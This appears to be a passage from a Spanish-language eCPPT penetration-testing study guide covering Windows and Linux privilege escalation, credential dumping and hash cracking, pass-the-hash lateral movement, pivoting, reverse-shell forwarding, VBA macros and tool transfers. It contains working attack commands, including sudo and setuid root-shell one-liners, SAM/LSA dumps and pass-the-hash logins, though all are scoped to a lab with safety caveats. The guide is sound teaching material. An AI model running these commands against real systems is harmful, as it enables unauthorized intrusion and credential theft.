Si estudias JuicyPotato, PrintSpoofer u otras variantes, revisa build, servicios y requisitos en el proyecto original. No hay un CLSID o identificador de método universal. `SeImpersonate` es una pista, no una shell SYSTEM automática.

En Meterpreter con la extensión disponible:

```text
load incognito
list_tokens -u
impersonate_token "LAB\usuario"
getuid
rev2self
```

Solo se pueden usar los tokens accesibles y adecuados a ese contexto. Impersonar y cambiar las credenciales con las que un proceso accede a la red son operaciones relacionadas, pero no idénticas.

<details>
<summary><strong>📸 Privilegios y tokens disponibles</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de tokens.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de un token.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Ejemplo histórico dependiente del sistema.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Privilegios de la identidad.</strong></sub></p>

</details>

### UAC y DLL hijacking

UAC suele separar un token filtrado de uno elevado de una cuenta que ya tiene derechos administrativos. No se debe presentar un bypass de UAC como escalada genérica desde cualquier usuario estándar. No copies un número de método de UACMe sin comprobar versión y condiciones.

Para DLL hijacking, `NAME NOT FOUND` en Process Monitor es una pista. Debes confirmar **orden de búsqueda, directorio escribible, nombre y arquitectura de la DLL, exportaciones requeridas y ejecución por una identidad superior**. Muchos fallos de búsqueda son normales y no son explotables.

<details>
<summary><strong>📸 UAC</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de integridad UAC.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Ejemplo histórico de UAC.</strong></sub></p>

</details>

En Process Monitor, filtra por el proceso que estás analizando y por el resultado de la operación. Relaciona los intentos de búsqueda de DLL con la ruta, la arquitectura y los permisos; un resultado `NAME NOT FOUND` aislado no acredita una carga controlable.

<details>
<summary><strong>📸 Process Monitor y búsqueda de DLL</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Filtro de procesos en Procmon.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Búsqueda de archivos y bibliotecas.</strong></sub></p>

</details>

### Herramientas de comprobación

```powershell
# Revisar la procedencia y la ayuda del script antes de importarlo
. .\PrivescCheck.ps1
Get-Help Invoke-PrivescCheck
Invoke-PrivescCheck
```

PowerUp original utiliza funciones como `Invoke-AllChecks`; otras herramientas exponen nombres distintos. Comprueba `Get-Command` después de importar. winPEAS y PrivescCheck recopilan pistas que deben validarse con permisos y contexto reales.

<details>
<summary><strong>📸 PowerUp y PrivescCheck</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Informe histórico de permisos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Informe de PrivescCheck.</strong></sub></p>

</details>

[↑ Volver al índice](#indice)

---

<a id="linux"></a>
## 🐧 Post-explotación y escalada Linux

<a id="linux-inventario"></a>
### Inventario mínimo

```bash
id
hostname
uname -a
cat /etc/os-release
sudo -l
groups
ip -br address
ip route
ss -lntup
ps aux
find /home /opt /var/www -maxdepth 3 -type f -readable 2>/dev/null
```

Relaciona usuario, grupos, procesos y archivos. Un grupo puede permitir acceso a backups, contenedores o datos de aplicaciones. `sudo -l` puede pedir contraseña; si no la tienes, registra el resultado en lugar de insistir con candidatos sin control.

<a id="sudo"></a>
### Sudo

```bash
sudo -l
```

Lee **ruta exacta, usuario destino, argumentos permitidos, `NOPASSWD`, variables y restricciones**. No todo binario que aparece en GTFOBins funciona con cualquier regla.

Ejemplo didáctico: si la regla permite expresamente `/usr/bin/find` como root y sus argumentos no impiden `-exec`:

```bash
sudo /usr/bin/find /tmp -maxdepth 0 -exec /bin/sh \;
id
```

La demostración debe identificar por qué la regla concede ejecución privilegiada. La solución suele ser restringir la operación necesaria y evitar intérpretes o comandos con escapes de shell. Fuente de contraste: [GTFOBins](https://gtfobins.org/).

<a id="suid-sgid"></a>
### SUID y SGID

```bash
find / -type f -perm -4000 2>/dev/null
find / -type f -perm -2000 2>/dev/null
ls -l /ruta/binario
file /ruta/binario
```

SUID puede cambiar el UID efectivo al propietario del archivo; SGID puede cambiar el GID efectivo al grupo del archivo. Comprueba propietario, grupo y opciones del sistema de archivos, como `nosuid`; el UID/GID efectivo puede diferir del real y no implica ser root. Algunas shells descartan privilegios y algunos binarios no proporcionan una operación aprovechable. Compara permisos, versión y función, no solo el nombre.

<details>
<summary><strong>📸 Permisos Linux y SUID</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Permisos de archivos Linux.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Permisos de archivos de cuentas.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Registro de un cambio de laboratorio.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de permisos SUID.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Configuración de autenticación Linux.</strong></sub></p>

</details>

<a id="capabilities"></a>
### Capabilities

```bash
getcap -r / 2>/dev/null
```

| Capability | Qué investigar |
|---|---|
| `cap_setuid` | Si el programa permite cambiar UID |
| `cap_dac_read_search` | Si permite leer archivos fuera del acceso ordinario |
| `cap_dac_override` | Si permite eludir comprobaciones de permisos DAC |
| `cap_sys_admin` | Capacidades muy amplias, dependientes de operación y namespace |

Ejemplo en un intérprete **con `cap_setuid+ep` confirmado** y ejecutable por tu usuario:

```bash
/ruta/python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh", "-p")'
```

No atribuyas esa capacidad a todos los intérpretes Python; debe aparecer en el ejecutable concreto y ser efectiva en ese entorno.

### Cron, timers, PATH y scripts modificables

```bash
cat /etc/crontab
ls -la /etc/cron.d /etc/cron.daily
systemctl list-timers --all
systemctl cat NOMBRE.service
namei -l /ruta/script.sh
find /opt /usr/local /var/backups -writable -type f 2>/dev/null
```

Para que un script modificable permita escalar, un usuario más privilegiado debe ejecutarlo. Registra quién lo lanza, frecuencia, permisos de sus directorios y si usa rutas relativas. Un PATH modificable solo ayuda si el proceso privilegiado hereda ese PATH y resuelve el comando por nombre.

Conserva copia y permisos originales antes de una prueba de laboratorio. Tras verificar el efecto, restaura el recurso. No conviertas cambios permanentes de `/etc/passwd`, `/etc/shadow` o cron en el primer intento.

### Credenciales, claves y servicios de localhost

```bash
find /var/www /opt /home -type f \
  \( -name '*.conf' -o -name '*.config' -o -name '.env' -o -name 'wp-config.php' \) \
  -readable 2>/dev/null
grep -RniE 'password|passwd|db_user|connection' /var/www /opt 2>/dev/null
ls -la ~/.ssh
ss -lntp
```

Valida si una credencial es de aplicación, BD, sistema o dominio. Un servicio que escucha en `127.0.0.1` puede ser accesible mediante un forward local; no necesitas exponerlo en todas las interfaces.

<details>
<summary><strong>📸 Grupos, archivos y credenciales Linux</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Identidad y grupos Linux.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Búsqueda acotada en configuraciones.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Lectura de un archivo de configuración.</strong></sub></p>

</details>

### Contenedores, bibliotecas y kernel

| Pista | Requisito que debes confirmar |
|---|---|
| Grupo Docker / socket accesible | Acceso real al daemon, modo rootless y restricciones |
| `LD_PRELOAD` con sudo | Variable preservada y programa que respeta la carga |
| Biblioteca compartida modificable | Ruta de búsqueda real y proceso privilegiado que la carga |
| Kernel antiguo | Build, parche, configuración y técnica aplicable |

Herramientas como linPEAS ayudan a ordenar pistas; colores o advertencias no equivalen a explotación. Verifica manualmente el permiso señalado. Un exploit de kernel puede provocar una caída: úsalo después de descartar rutas más simples y confirmar requisitos.

[↑ Volver al índice](#indice)

---

<a id="credenciales"></a>
## 🔐 Credenciales, hashes y cracking

<a id="hash-formatos"></a>
### Identificar el material antes de usarlo

| Material | Qué representa | Qué puedes intentar |
|---|---|---|
| Contraseña | Secreto en claro | Autenticación compatible en su ámbito |
| Hash NT | Derivado de contraseña usado por NTLM | Cracking o PtH donde NTLM esté permitido |
| NetNTLMv2 | Respuesta desafío/respuesta | Cracking offline; no equivale directamente al hash NT |
| DCC2 / MSCACHE v2 | Credencial de dominio cacheada | Cracking; no PtH como si fuera NT |
| AS-REP / TGS | Material Kerberos cifrado | Cracking según tipo de ticket y cifrado |
| `.ccache` / `.kirbi` | Contenedor de tickets | Autenticación Kerberos compatible y dentro de validez |
| Clave SSH | Clave privada de una identidad | SSH si está autorizada para la cuenta y host |

No identifiques un hash solo por longitud. Conserva la línea completa, su origen y el tipo de cuenta. Recortar separadores puede inutilizarlo.

### SAM y secretos LSA

Con administración **confirmada** en un host Windows del laboratorio:

```bash
crackmapexec smb "10.10.10.20" --local-auth -u labadmin -p 'PASSWORD' --sam
crackmapexec smb "10.10.10.20" --local-auth -u labadmin -p 'PASSWORD' --lsa
```

`--sam` trata la base de cuentas locales. `--lsa` trata secretos LSA; **no es un volcado de la memoria de LSASS**. Los datos cacheados, secretos de servicios y hashes locales tienen formatos y usos diferentes.

Meterpreter `hashdump` y las funciones equivalentes también dependen del contexto y protecciones. Evita tratar `creds_all` o una lectura de memoria como operaciones infalibles: pueden no devolver datos utilizables.

<details>
<summary><strong>📸 SAM y secretos LSA</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Fuentes SAM y LSA.</strong></sub></p>

</details>

<a id="hashcat-formatos"></a>
### Hashcat: modos frecuentes

| Formato confirmado | Modo habitual | Observación |
|---|---:|---|
| MD5 sin sal | 0 | No sirve para cualquier cadena de 32 caracteres |
| Hash NT | 1000 | Formato NTLM del hash local/dominio |
| NetNTLMv2 | 5600 | Desafío/respuesta, no hash NT |
| SHA512crypt (`$6$`) | 1800 | Algunas contraseñas Linux |
| yescrypt (`$y$`) | Depende del soporte instalado | No usar 1800 por ser Linux |
| DCC2 / MSCACHE v2 | 2100 | Cache de credenciales de dominio |
| Kerberos TGS-REP, etype 23 | 13100 | RC4; AES usa otros modos |
| Kerberos AS-REP, etype 23 | 18200 | No aplicar a cualquier AS-REP |
| Kerberos TGS-REP, etype 17 / 18 | 19600 / 19700 | AES128 / AES256 |

```bash
hashcat --help
hashcat --example-hashes
hashcat -m 1000 -a 0 nt.hash candidates.txt --session ecppt-nt
hashcat -m 1000 -a 0 nt.hash candidates.txt \
  -r /usr/share/hashcat/rules/best64.rule --session ecppt-rules
hashcat -m 1000 nt.hash --show
hashcat --session ecppt-nt --restore
```

`Exhausted` significa que se agotaron esos candidatos; no que la contraseña sea imposible. `Token length exception` suele señalar formato/modo incorrecto o líneas dañadas. Las reglas transforman candidatos; no cambian el modo de hash. Consulta los [formatos de Hashcat](https://github.com/hashcat/hashcat/blob/v7.1.2/docs/hashcat-example-hashes.md).

### John y archivos protegidos

```bash
john --format=NT --wordlist=candidates.txt nt.hash
john --format=NT --show nt.hash
unshadow passwd.copy shadow.copy > linux-combined.txt
john --wordlist=candidates.txt linux-combined.txt
ssh2john id_rsa > ssh-key.hash
john --wordlist=candidates.txt ssh-key.hash
```

Los formatos admitidos por John dependen de su compilación. La disponibilidad y ruta de `ssh2john`, `zip2john` o `keepass2john` dependen del paquete. Una clave sin passphrase no necesita cracking. Un secreto recuperado offline debe comprobarse en el servicio adecuado, evitando multiplicar intentos sobre cuentas equivocadas.

<details>
<summary><strong>📸 Identificación y tratamiento de hashes</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Identificación y tratamiento de hashes.</strong></sub></p>

</details>

[↑ Volver al índice](#indice)

---

<a id="movimiento-lateral"></a>
## ↔️ Movimiento lateral

### Elegir el protocolo por requisitos

| Método | Requisitos típicos | Qué revisar si falla |
|---|---|---|
| WinRM | Servicio activo y autorización de la cuenta | Grupo/política de acceso y transporte TLS |
| RDP | Derecho de inicio de sesión remoto | NLA, grupos y restricciones locales |
| SSH | Cuenta/clave autorizada y servicio activo | Usuario, permisos y algoritmo compatible |

No actives WinRM o RDP como respuesta automática a un fallo: podría ser una restricción deliberada y cambiaría el sistema.

### Contraseña, hash y cuenta local

```bash
evil-winrm -i "10.10.10.20" -u "alumno" -p 'PASSWORD'
# TLS, si el servicio y la configuración lo requieren
evil-winrm -S -i "10.10.10.20" -u "alumno" -p 'PASSWORD'
```

```bash
# Hash NT de una cuenta local, ámbito explícito
crackmapexec smb "10.10.10.20" --local-auth -u labadmin -H 'NTHASH'
# Hash NT de una cuenta de dominio
crackmapexec smb "10.10.10.20" -d "lab.example" -u "alumno" -H 'NTHASH'
evil-winrm -i "10.10.10.20" -u "alumno" -H 'NTHASH'
```

No pases una respuesta NetNTLMv2 donde se exige un hash NT. **PtH autentica; no concede permisos adicionales**. NTLM puede estar restringido y las políticas remotas pueden filtrar tokens locales.

<details>
<summary><strong>📸 Acceso remoto y Pass-the-Hash</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Resultado de autenticación SMB.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Ámbito de cuenta local.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Diferencia entre cuenta local y dominio.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de ejecución remota.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Consola y mecanismo de ejecución.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Material NT y formatos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Recursos compartidos visibles.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Opciones históricas de módulos.</strong></sub></p>

</details>

### RDP y derechos de inicio de sesión

Para RDP, utiliza el nombre del binario disponible (`xfreerdp` o `xfreerdp3`) y deja que solicite el secreto cuando sea posible:

```bash
xfreerdp /v:"10.10.10.20" /u:"alumno" /d:"lab.example"
```

Un login SMB correcto no implica derecho de inicio de sesión por RDP. La opción `/pth:` de FreeRDP requiere condiciones adicionales, como que el destino admita el modo Restricted Admin; no funciona de forma universal por disponer de un hash.

### PowerShell Remoting y el segundo salto

```powershell
$Cred = Get-Credential
Enter-PSSession -ComputerName app01.lab.example -Credential $Cred
# Dentro de la sesión: whoami /all
# Para terminar:
Exit-PSSession
```

En una sesión remota, acceder a un tercer equipo puede fallar por falta de delegación de credenciales: es el problema del segundo salto. No lo interpretes automáticamente como contraseña errónea. Con direcciones IP, Kerberos puede no usarse como esperas; prioriza nombres confirmados y comprueba el mecanismo negociado. Referencia: [Microsoft · segundo salto en PowerShell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/ps-remoting-second-hop).

<details>
<summary><strong>📸 WinRM y PowerShell Remoting</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Acceso a un servicio WinRM.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información histórica de una sesión.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Solicitud de credenciales.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Condiciones de PowerShell Remoting.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Configuración de una sesión remota.</strong></sub></p>

</details>

### Hashes y tickets en Windows

Los casos de [Mimikatz y Pass-the-Hash](#ad-pth) y [Pass-the-Ticket](#ptt) se estudian junto a sus capturas en Active Directory.

### Linux: claves y reutilización

```bash
chmod 600 lab_id_rsa
ssh -i lab_id_rsa alumno@10.20.20.30
```

Una clave privada encontrada requiere correlacionar usuario, host y `authorized_keys`. Documenta su procedencia, protección y acceso confirmado; no pruebes la misma clave contra todos los equipos sin una hipótesis.

<details>
<summary><strong>📸 Archivos y datos en Linux</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Tablas de un archivo SQLite.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Archivos de configuración adicionales.</strong></sub></p>

</details>

[↑ Volver al índice](#indice)

---

<a id="pivoting"></a>
## 🔁 Pivoting y movimiento en red

### Dibuja el camino antes de configurar herramientas

```text
Kali                   Pivote                     Red interna
10.10.14.5  ───────►  10.10.10.20
                     10.20.20.20  ─────────────►  10.20.20.10 (DC)
                                                 10.20.20.30 (APP)
```

Un pivote necesita alcanzar el destino desde su red; no necesariamente tener una interfaz dedicada a cada subred. Anota conexiones permitidas y **desde qué máquina se abre cada puerto**. Un túnel que permite llegar a HTTP interno no crea automáticamente el camino de retorno para una reverse shell.

| Necesidad | Opción | Qué comprobar |
|---|---|---|
| Un puerto interno | SSH `-L` o Meterpreter `portfwd` | Dirección de escucha local y destino |
| Varias aplicaciones TCP | SOCKS con SSH o Metasploit | Que cada herramienta utilice el proxy |
| Recibir una conexión desde dentro | Listener en el pivote + forward | IP que ve el objetivo y ruta hacia el listener final |
| Otra red detrás de un segundo pivote | Segundo túnel explícito | Recorrido completo en cada dirección |

### SSH: forward local y SOCKS

```bash
# En Kali: puerto 8080 local → web interna vista por el pivote
ssh -N -L 127.0.0.1:8080:10.20.20.30:80 alumno@10.10.10.20
# En otra terminal de Kali
curl -i http://127.0.0.1:8080/

# En Kali: proxy SOCKS dinámico a través del host SSH
ssh -N -D 127.0.0.1:1080 alumno@10.10.10.20
curl --socks5-hostname 127.0.0.1:1080 http://app.lab.example/
```

El nombre de destino de `-L` se resuelve desde el servidor SSH. Con HTTPS o vhosts, conserva el nombre HTTP y SNI apropiados: conectar a localhost puede mostrar otra aplicación.

Configuración mínima de un archivo de proxychains dedicado:

```ini
strict_chain
proxy_dns
[ProxyList]
socks5 127.0.0.1 1080
```

```bash
proxychains4 -f ./proxychains-lab.conf nmap -sT -Pn -n \
  -p 80,445,3389,5985 10.20.20.30
proxychains4 -f ./proxychains-lab.conf curl -I http://10.20.20.30/
```

No pases SYN scans, UDP o ICMP como si fueran conexiones TCP de aplicación. `proxy_dns` no garantiza compatibilidad con cualquier programa; algunas herramientas usan resolución propia o procesos que no heredan la configuración. Comprueba el tráfico real y el nombre que recibe el servidor.

<details>
<summary><strong>📸 SSH y transporte de túneles</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Transporte de un túnel SSH.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Ejemplo histórico de túnel web.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de una herramienta de túnel.</strong></sub></p>

</details>

### Metasploit: ruta de framework y proxy

Después de obtener una sesión válida con acceso a la red interna:

```text
use post/multi/manage/autoroute
set SESSION 1
set CMD add
set SUBNET 10.20.20.0
set NETMASK 255.255.255.0
run
route print
use auxiliary/server/socks_proxy
set VERSION 5
set SRVHOST 127.0.0.1
set SRVPORT 1080
run -j
jobs
```

La ruta pertenece a Metasploit, **no a la tabla de rutas de Kali**. Las herramientas externas necesitan el proxy o un forward. El módulo vigente de referencia es `socks_proxy`; no mezcles su configuración SOCKS5 con un cliente configurado como SOCKS4.

Dentro de Meterpreter, para un único servicio:

```text
portfwd add -L 127.0.0.1 -l 8080 -p 80 -r 10.20.20.30
portfwd list
portfwd delete -l 8080
```

Consulta `portfwd -h` para las opciones de tu versión. Fuente: [pivoting en Metasploit](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html).

<details>
<summary><strong>📸 Forwards, SOCKS y proxychains</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de forwards.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Configuración del cliente proxy.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Estado de un servicio SOCKS.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Consulta a través de un proxy.</strong></sub></p>

</details>

### Reverse shell desde la red interna

No estás obligado a cambiar a bind shell. Necesitas una dirección y un puerto alcanzables desde el objetivo interno. Un ejemplo con SSH:

```bash
# En Kali: forward remoto abierto en la IP interna del pivote
ssh -N -R 10.20.20.20:4444:127.0.0.1:4444 alumno@10.10.10.20
# En otra terminal de Kali, recibir la shell de texto
nc -lvnp 4444
```

El objetivo interno debe conectar a `10.20.20.20:4444`. El servidor SSH debe permitir ese bind remoto, mediante la configuración apropiada de `GatewayPorts`/forwarding, y el firewall debe admitirlo. Confirma desde el pivote dónde escucha realmente; un bind solo a `127.0.0.1` no es accesible desde otro host.

### Doble pivote: tabla de comprobación

| Tramo | Prueba mínima | Si falla |
|---|---|---|
| Kali → pivote A | Sesión SSH/agente estable | Resolver la conexión inicial |
| A → pivote B | Conexión al puerto concreto desde A | Revisar ruta, filtrado y servicio |
| B → objetivo | Prueba del servicio desde B | Confirmar segmento y alcance |
| Kali → objetivo por ambos saltos | Una petición HTTP/TCP simple | Revisar encadenado y DNS |
| Objetivo → receptor de callback | Listener y ruta de retorno | Diseñar forward independiente |

Solo después de estos pasos utiliza un escáner o una herramienta de explotación. Registra qué sesión sostiene cada ruta: perder A puede inutilizar todo lo que depende de B.

[↑ Volver al índice](#indice)

---

<a id="complementos"></a>
<a id="desarrollo-recursos"></a>
## 🧰 Macros VBA, Shellter y ofuscación

### Macros VBA y formatos Office

| Formato | Uso habitual |
|---|---|
| `.docx` / `.dotx` | Documento / plantilla sin macros VBA |
| `.docm` / `.dotm` | Documento / plantilla habilitada para macros |
| `.xlsx` / `.xltx` | Libro / plantilla sin macros VBA |
| `.xlsm` / `.xltm` | Libro / plantilla habilitada para macros |

Ejemplo inocuo para entender la sintaxis:

```vb
Sub SaludoLaboratorio()
    ' El apóstrofo introduce un comentario.
    MsgBox "Prueba de laboratorio eCPPT", vbInformation, "eCPPT"
End Sub
```

`Document_Open` corresponde a un evento de documento de Word; `Workbook_Open`, a un libro Excel. Deben estar en el módulo apropiado y no significan «crear un documento nuevo». La ejecución depende de políticas, firma, ubicación, confianza y origen del archivo.

Practica en un entorno aislado con el documento de prueba y políticas explícitas. HTA y `mshta.exe` son otro mecanismo, sujeto a disponibilidad y controles; no requieren asumir que Internet Explorer siga instalado.

#### Sintaxis básica de VBA y creación de una hoja

`Sub ... End Sub` delimita un procedimiento; el apóstrofo inicia un comentario. `Dim` declara una variable y `Set` asigna una referencia a un objeto. Ejemplo para Excel, usando un nombre de hoja que todavía no exista:

```vb
Sub CrearHojaDeApuntes()
    Dim ws As Worksheet
    Set ws = ThisWorkbook.Sheets.Add
    ws.Name = "Apuntes"
    MsgBox "Hoja creada", vbInformation, "Laboratorio"
End Sub
```

`ThisWorkbook` identifica el libro que contiene la macro. [Sheets.Add en VBA](https://learn.microsoft.com/en-us/office/vba/api/excel.sheets.add).

<details>
<summary><strong>📸 Macros VBA: editor, mensajes, hojas y eventos</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Configuración de macros en Office.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Opciones del editor de Office.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Mensaje de una macro VBA.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Parámetros de un mensaje.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Resultado de un mensaje VBA.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Creación de una hoja.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Interacción entre VBA y un proceso.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Opciones de presentación.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Eventos de apertura del documento.</strong></sub></p>

</details>

<details>
<summary><strong>📸 Formatos VBA, controles y HTA</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Eventos de apertura del libro.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Integración histórica de herramientas.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Ejemplo histórico de automatización.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Configuración histórica de una macro.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Controles y formatos de Office.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Generación histórica de documentos.</strong></sub></p>

</details>

### Shellter, ofuscación y empaquetado

Shellter, Invoke-Obfuscation, Veil, encoders de msfvenom y UPX tienen propósitos y limitaciones distintos. Empaquetar o codificar no garantiza eludir controles, mantener el comportamiento del programa ni conservar una sesión.

Para estudiar un archivo, documenta arquitectura, hash, dependencias y cambios observables. No interpretes «ejecución en memoria» como ausencia de registros: PowerShell, el sistema y los controles del endpoint pueden generar telemetría.

<details>
<summary><strong>📸 Shellter</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Interfaz histórica de Shellter.</strong></sub></p>

</details>

<details>
<summary><strong>📸 Ofuscación de código</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Opciones históricas de ofuscación.</strong></sub></p>

</details>

[↑ Volver al índice](#indice)

---

<a id="utilidades"></a>
## 🧰 Utilidades prácticas

<a id="transferencias"></a>
### Transferencias de archivos

En Kali, sirve solo el directorio con los archivos de la práctica:

```bash
python3 -m http.server 8000 --bind "10.10.14.5" --directory transfer
```

En Linux:

```bash
curl -fS http://10.10.14.5:8000/tool -o /tmp/lab-tool
wget http://10.10.14.5:8000/tool -O /tmp/lab-tool
sha256sum /tmp/lab-tool
```

En Windows:

```powershell
Invoke-WebRequest -Uri 'http://10.10.14.5:8000/tool.exe' -OutFile 'C:\Users\Public\lab-tool.exe'
Get-FileHash 'C:\Users\Public\lab-tool.exe' -Algorithm SHA256
```

Alternativa autenticada cuando SSH esté disponible:

```bash
scp transfer/tool "alumno@10.10.10.20:/tmp/lab-tool"
scp "alumno@10.10.10.20:/ruta/evidencia.txt" evidence/
```

Verifica tamaño, hash, arquitectura y permisos antes de ejecutar. HTTP no cifra los datos y el servidor básico de Python no ofrece subida por defecto. Que una descarga devuelva `200` no evita que el archivo sea una página de error o de login.

| Necesidad | Linux | Windows |
|---|---|---|
| Identidad | `id` | `whoami /all` |
| Conexiones | `ss -lntup` | `netstat -ano` |
| Ruta | `ip route` | `route print` |
| Hash de archivo | `sha256sum archivo` | `Get-FileHash archivo` |
| Tipo/arquitectura | `file archivo` | Propiedades PE o herramienta de inspección |
| Base64 | `base64 archivo` / `base64 -d` | `[Convert]::FromBase64String(...)` |

<details>
<summary><strong>📸 Descargas con PowerShell</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Descarga de un archivo.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Descarga con iwr e indicación de la ruta de destino.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Descarga con Invoke-WebRequest y comprobación del archivo.</strong></sub></p>

</details>

<a id="diagnostico-red"></a>
### Diagnóstico con Wireshark y TShark

**Cuándo usarlo:** el túnel está conectado, pero una petición no llega o la conexión se corta. Captura en la interfaz que realmente transporta ese tramo y reproduce una sola prueba.

```bash
# Enumerar interfaces; sustituir tun0 por la interfaz del tramo que investigas
tshark -D
mkdir -p evidence
# Captura limitada a 30 segundos y a un host del laboratorio
tshark -i tun0 -f 'host 10.20.20.30' -a duration:30 \
  -w evidence/diagnostico-red.pcapng
# Leer después la captura, sin privilegios adicionales
tshark -r evidence/diagnostico-red.pcapng \
  -Y 'tcp.flags.syn == 1 or tcp.flags.reset == 1'
# Exportar los nombres consultados por DNS, si la captura los contiene
tshark -r evidence/diagnostico-red.pcapng -Y 'dns.flags.response == 0' \
  -T fields -e frame.time_relative -e ip.src -e dns.qry.name
```

La captura necesita permisos adecuados sobre la interfaz. `-f` decide qué paquetes guardar; `-Y` selecciona cuáles mostrar al leerlos. Sus sintaxis son distintas. La opción `-w` guarda paquetes, no un informe de texto. Referencia: [manual de TShark](https://www.wireshark.org/docs/man-pages/tshark.html).

En Wireshark, aplica estos **filtros de visualización** sobre una captura existente:

| Qué quieres aislar | Filtro |
|---|---|
| Tráfico del host | `ip.addr == 10.20.20.30` |
| Conexiones a un puerto | `tcp.port == 445` |
| Intentos de apertura TCP | `tcp.flags.syn == 1 and tcp.flags.ack == 0` |
| Respuestas SYN/ACK | `tcp.flags.syn == 1 and tcp.flags.ack == 1` |
| Reinicios TCP | `tcp.flags.reset == 1` |
| DNS o Kerberos | `dns or kerberos` |
| Peticiones HTTP visibles | `http.request` |

Los operadores se pueden combinar con paréntesis. El filtro de HTTP no revela automáticamente el contenido cifrado de HTTPS. Referencia: [filtros de Wireshark](https://www.wireshark.org/docs/wsug_html_chunked/ChWorkBuildDisplayFilterSection.html).

**Cómo interpretar una prueba:** SYN repetidos sin respuesta apuntan a pérdida, filtrado o retorno ausente; no identifican por sí solos la causa. Un RST indica un rechazo o cierre, que también puede proceder de un intermediario. Si el intercambio TCP se completa y después aparece un error de la aplicación, revisa protocolo, autenticación y permisos.

Con SOCKS, el destino final se conecta desde el pivote: en la interfaz externa de Kali puedes ver únicamente el transporte del túnel. Con una VPN ocurre algo parecido entre la interfaz virtual y la física. Un filtro sobre la IP interna en la interfaz equivocada puede dejar la captura vacía aunque exista tráfico.

<a id="consulta"></a>
### Consulta por situación

| Lo que tienes delante | Primer paso | Qué te permite decidir |
|---|---|---|
| Un rango y ningún host | [Descubrimiento](#nmap) y conectividad | Si hay filtrado, una ruta ausente o equipos activos |
| HTTP con el mismo contenido en todas las rutas | [Calibrar respuestas y vhosts](#web-enumeracion) | Si estás viendo el vhost por defecto o un falso 404 |
| SMB abierto sin credenciales | [SMB y RPC](#smb) | Recursos, usuarios y política visibles sin autenticación |
| Un nombre de usuario del dominio | [Identidades de AD](#ad-usuarios) | Distinguir nombre visible, cuenta válida y permisos de consulta |
| Credenciales válidas pero acceso denegado | [Autenticación y permisos](#movimiento-lateral) | Si fallan permisos, protocolo, dominio o política |
| Una consola de SQL Server | [Contexto SQL y permisos](#mssql) | Si puedes consultar, impersonar o ejecutar procesos |
| Una shell Linux limitada | [Inventario](#linux-inventario) · [sudo](#sudo) | Qué puede ejecutar o modificar tu identidad |
| Una cuenta de servicio Windows | [Token](#tokens-windows) · [servicios](#servicios-windows) | Qué mecanismo podría elevar ese token |
